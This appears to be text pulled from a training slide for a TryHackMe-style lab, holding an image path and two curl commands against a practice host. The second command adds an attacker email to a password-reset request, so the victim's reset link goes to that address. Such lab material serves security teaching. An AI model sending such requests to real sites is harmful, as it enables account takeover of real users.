

curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert‘

curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'